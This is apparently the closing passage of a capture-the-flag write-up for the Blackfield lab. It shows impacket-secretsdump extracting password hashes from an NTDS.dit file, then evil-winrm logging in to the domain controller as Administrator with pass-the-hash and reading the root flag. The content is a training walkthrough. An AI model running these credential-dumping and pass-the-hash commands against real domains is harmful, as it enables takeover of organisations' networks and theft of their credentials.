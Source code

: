 <img src="/assets/img/blackfield/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

Dumped the hashes from NTDS.dit, including the Domain Administrator one.

```bash
impacket-secretsdump -ntds ntds.dit local -system SYSTEM      
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:<REDACTED>:::
...
```

Connected as the Domain Administrator via WinRM and read the root flag. GGs!

```
evil-winrm -u administrator -i dc01.blackfield.local -H <REDACTED>

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
DC01

*Evil-WinRM* PS C:\Users\Administrator\Documents> type c:\users\administrator\desktop\root.txt
4375a629c7c67c8e****************
```